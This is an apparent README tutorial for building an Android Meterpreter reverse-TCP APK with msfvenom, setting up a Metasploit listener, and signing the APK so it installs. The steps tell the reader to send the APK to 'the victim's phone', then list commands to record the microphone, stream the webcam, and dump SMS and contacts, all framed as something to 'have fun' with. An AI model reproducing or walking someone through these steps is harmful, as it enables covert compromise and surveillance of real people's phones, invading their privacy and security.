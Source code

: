 
# STEPS :

Start apache2
```
~ # apache2ctl start
```

. Set payload and create custom windows executable.
Command:
```
    root@kali:-# msfvenom -p android/meterpreter/reverse_tcp  LHOST=192.168.0.110 LPORT=4444 R > andro.apk 
```
(To know your LHOST, open new terminal and type ifconfig )

Your apk file is being saved in the Home folder.

Note: Don't add any stray space characters anywhere. Use the command as is (after changing the LHOST and LPORT as needed).

. Transfer/mail this file (here andro.apk) file to the victim's phone and install it.

. Start the metasploit framework console as follows :
         
Command:
```
    root@kali:-# msfconsole
```

. Now it's time to open and setup multi-handler. Follows the steps :
```
    msf  > use multi/handler
    msf exploit(handler) > set payload android/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.110
    msf exploit(handler) > set LPORT 4444
    msf exploit(handler) > exploit
```

        Payload Handler is being started........

. When the victims clicks on the app(installed as MAIN ACTIVITY in the menu) in his phone, meterpreter session will be established.

Exploits:

. Try the following exploit commands :
```
    - record_mic
    - webcam_snap
    - webcam_stream
    - dump_contacts
    - dump_sms
    - geolocate
 ```
************************************************************************
Error fixing(incase you get PARSE ERROR)

Two methods:

```
1)Type command "d2j-apk-sign andro.apk" 
```  
  or
```  
 2) To fix this error download signapk - Click here to download
```
Steps to follow
```
    Open Signapk folder then open cmd.
    Copy the andro.apk(the app you made) in Signapk folder.
    Type java -" jar signapk.jar certificate.pem key.pk8 andro.apk andro-signed.apk "in cmd(not double quotes).
    copy it in your phone and install it.
```
# Have fun with nu11secur1ty
